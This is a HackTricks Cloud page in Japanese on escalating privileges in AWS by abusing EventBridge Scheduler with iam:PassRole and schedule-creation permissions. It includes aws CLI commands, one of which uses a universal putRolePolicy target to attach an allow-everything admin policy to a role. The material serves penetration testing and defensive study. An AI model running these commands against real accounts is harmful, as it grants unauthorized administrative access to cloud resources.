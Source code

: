 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Schedulerは、さまざまなAWSサービスへの呼び出しをスケジュールすることで特権昇格に使用できます。スケジュールに基づいてサービスを呼び出す能力を活用することで、十分な権限を持つユーザーは特権を昇格させることができます。EventBridge Schedulerがテンプレート化されたターゲットを使用してトリガーできる主なアクションは以下の通りです：

* Lambda: lambda:InvokeFunction - スケジュールに従ってLambda関数を呼び出します。
* CodeBuild: codebuild:StartBuild - AWS CodeBuildプロジェクトを開始します。
* CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipelineの実行をトリガーします。
* ECS: ecs:RunTask - ECSタスクを実行します。
* EventBridge: events:PutEvents - EventBridgeにイベントを送信します。
* Inspector: inspector:StartAssessmentRun - Amazon Inspectorの評価を開始します。
* Kinesis: kinesis:PutRecord - Kinesisストリームにレコードを送信します。
* Firehose: firehose:PutRecord - Firehose配信ストリームにレコードを送信します。
* SageMaker: sagemaker:StartPipelineExecution - SageMakerパイプラインの実行を開始します。
* SNS: sns:Publish - SNSトピックにメッセージを公開します。
* SQS: sqs:SendMessage - SQSキューにメッセージを送信します。
* Step Functions: states:StartExecution - AWS Step Functionsの実行を開始します。

これらはEventBridge Schedulerが実行できるテンプレート化されたアクションの一部に過ぎません。しかし、ユニバーサルターゲットを使用することで、AWSサービス全体で多くの他のアクションを呼び出すことができます。ユニバーサルターゲットは、テンプレート化されたリストを超えたより広範なAPI操作を可能にします。

EventBridge Schedulerの詳細については：

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

`sts:AssumeRole`、`iam:PassRole`、および`scheduler:CreateSchedule`または`scheduler:UpdateSchedule`の権限を持つユーザーは、EventBridge Schedulerを利用して、より高い権限を持つロールを使用してサービスを呼び出すことで特権を昇格させることができます。

これらの権限を持つ攻撃者は、昇格された権限を持つロールを引き受け、そのロールをEventBridge Schedulerに渡してスケジュールを作成または更新できます。スケジュールは、Lambda関数の呼び出し、ECSタスクの開始、CodePipelineの実行のトリガー、またはEventBridge Schedulerがサポートする270のAWSサービスのいずれかの操作を実行するように構成できます。これらのアクションをスケジュールすることで、攻撃者は高い権限を悪用してAWSサービス全体で不正な操作を行うことができます。 \\

例えば、彼らはスケジュールを設定して、テンプレート化されたアクションであるLambda関数を呼び出すことができます：
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Schedulerでは、テンプレート化されたサービスアクションに加えて、さまざまなAWSサービスのAPI操作を呼び出すためにユニバーサルターゲットを使用できます。ユニバーサルターゲットは、ほぼすべてのAPIを呼び出す柔軟性を提供します。1つの例は、「putRolePolicy」ポリシーを持つロールを使用して「AdminAccessPolicy」を追加するユニバーサルターゲットを使用することです。
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## 参考文献

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
